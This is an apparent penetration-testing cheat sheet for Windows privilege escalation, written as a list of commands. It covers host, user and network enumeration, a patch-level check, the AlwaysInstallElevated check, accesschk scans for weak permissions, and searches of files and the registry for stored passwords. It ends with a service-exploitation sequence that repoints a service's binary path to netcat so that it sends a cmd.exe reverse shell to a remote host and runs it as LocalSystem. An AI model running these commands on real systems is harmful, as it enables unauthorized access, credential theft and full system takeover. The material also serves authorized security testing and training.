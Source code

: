 **system info**
 
`systeminfo`

**Get the hostname and username (if available)**
```
hostname
echo %username%
Get users
net users
net user [username]
```

### Networking 
```
ipconfig /all

 Printer?
route print
```

**ARP-arific**
`arp -A`

**Active network connections**
`netstat -ano`

**Firewall(Win XP SP2+ only)**
```
netsh firewall show state
netsh firewall show config
```

**Scheduled tasks**

` schtasks /query /fo LIST /v `

**Running processes to started services**
```
tasklist /SVC
net start
```

**Driver**
`DRIVERQUERY`

*WMIC (Win 7/8 and XP requires admin)*

`wmic /?`


**WMIC: check patch level**
`wmic qfe get Caption,Description,HotFixID,InstalledOn`


**AlwaysInstallElevated msi package**
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


**some more**

```
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

```

**Service permissions**
```
sc query
sc qc [service_name]
```


**Accesschk**
```
accesschk.exe /accepteula (to escape the prompt)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * 
accesschk.exe -ucqv [service_name]
```

**Find all weak folder permissions per drive.**
```
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
```


**Find all weak file permissions per drive.**
```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Service exploitation**

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```
